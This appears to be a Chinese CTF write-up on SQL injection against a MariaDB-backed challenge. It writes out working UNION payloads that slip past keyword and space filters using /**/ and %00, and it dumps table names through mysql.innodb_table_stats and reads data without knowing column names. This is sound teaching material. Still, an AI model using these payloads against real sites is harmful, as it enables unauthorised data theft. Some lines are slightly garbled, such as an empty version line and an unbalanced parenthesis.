

# 考察知识点：

# 1.无列名注入

# 2.基于MariaDB的SQL注入


1. 经过不断尝试发现不是xss，而是sql注入


2.发现过滤了or,and,空格，#，--+。

控股个可以使用/**/代替，注释符可以使用%00代替


3.使用union/**/select联合注入，判断列数

发现存在22列

```javascript
title=-2'union/**/select/**/null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```

发现数据库版本为：


4.爆库

```javascript
title=-2'union/**/select/**/null,database(),null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```


5.爆表

但是or被过滤，导致information.schema不可以使用，但是发现数据库版本为：


使用 innodb 存储引擎

在Mysql>5.6版本中，innodb增添了两个新表：innodb_index_stats、innodb_table_stats。

两个表都会存储数据库和对应的数据表，唯一与information_schema不同的是它没有列名。

- sys 数据库

Mysql>5.7时，新增了sys数据库，基础数据来自于performance_chema和information_schema两个库，但是本身数据库不存储数据。

而且值得一提的是 MySQL 好像是默认关闭 innodb 数据库的，所以这也是一种新思路。

sys 有一些有用的表：

| 表名 | 作用 |
| - | - |
| schema\_auto\_increment\_columns | 只会显示有自增的表 |
| schema\_table\_statistics\_with\_buffer | 全部显示 |
| x$schema\_table\_statistics\_with\_buffer | 全部显示 |


但是需要用户是 root 权限才能查看 sys 数据库，所以要先看一下 user()是不是 root。

3、查看表名

因为用户权限是root，所以可以使用sys数据库。但是mariaDB数据库中没有sys数据库。




所以使用mysql数据库中的innodb_table_stats表。


```javascript
title=-2'union/**/select/**/null,(select/**/group_concat(table_name)/**/
from/**/mysql.innodb_table_stats),null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```


6.此时已经知道了表名，但是不知道列名，可以考虑无列名注入

无列名注入：

https://www.jianshu.com/p/6eba3370cfab

```javascript
title=-2'union/**/select/**/null,(select/**/group_concat(b)/**/from/**/
(select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select*from/**/users)ll))
,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```


